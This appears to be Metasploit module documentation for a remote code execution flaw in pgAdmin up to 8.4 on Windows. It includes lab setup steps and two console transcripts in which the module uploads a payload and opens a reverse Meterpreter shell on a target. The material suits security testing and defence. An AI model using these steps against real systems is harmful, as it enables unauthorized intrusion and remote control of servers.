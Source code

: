 ## Vulnerable Application
The pgAdmin versions up to 8.4 are vulnerable to a Remote Code Execution (RCE) flaw through the validate binary path API.
This vulnerability allows attackers to run arbitrary code on the server hosting pgAdmin, which poses a significant
threat to the integrity of the database management system and the security of its underlying data.

The exploit can be executed in both authenticated and unauthenticated scenarios. When valid credentials are available,
Metasploit can log in to pgAdmin, upload a malicious payload using the file management plugin, and then execute it via
the validate_binary_path endpoint. This vulnerability is specific to Windows targets. If authentication is not required
by the application, Metasploit can directly upload and trigger the payload through the validate_binary_path endpoint.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/pgadmin_binary_path_api`
1. Set the `RHOST`, `PAYLOAD`, and optionally the `USERNAME` and `PASSWORD` options
1. Do: `run`


### Installation (Windows)

These steps are the bare minimum to get the application to run for testing and should not be use for a production setup.
For a production setup, a server like Apache should be setup to run pgAdmin through it's WSGI interface.

**The following paths are all relative to the default installation path `C:\Program Files\pgAdmin 4\web`**.

1. [Download][1] and install the Windows build
1. Copy the `config_distro.py` file to `config_local.py`
1. Edit `config_local.py` and set `SERVER_MODE` to `True`
1. Edit `config_local.py` and add `DEFAULT_SERVER = '0.0.0.0'` to bind on all IPs, required for remotely exploiting from a different machine
1. Initialize the database: `..\python\python.exe setup.py setup-db`
1. Create an initial user account: `..\python\python.exe setup.py add-user --admin test@test.com 123456`
1. Run the application: `..\python\python.exe pgAdmin4.py`

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### pgAdmin 8.4 on Windows (Authenticated)

```
msf exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf exploit(windows/http/pgadmin_binary_path_api) > set USERNAME test@test.com
USERNAME => test@test.com
msf exploit(windows/http/pgadmin_binary_path_api) > set PASSWORD 123456
PASSWORD => 123456
msf exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Successfully authenticated to pgAdmin
[*] Payload uploaded to: C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe
[*] Sending stage (201798 bytes) to 192.168.1.5
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.5:52588) at 2024-08-26 19:48:10 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-FMNV75N
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 

```

### pgAdmin 8.4 on Windows (Unauthenticated)

```
msf exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Payload uploaded to: C:\Users\pgAdmin\pg_restore.exe
[*] Sending stage (200774 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.7:55560) at 2024-08-26 19:51:01 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-HTGS43E
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 

```
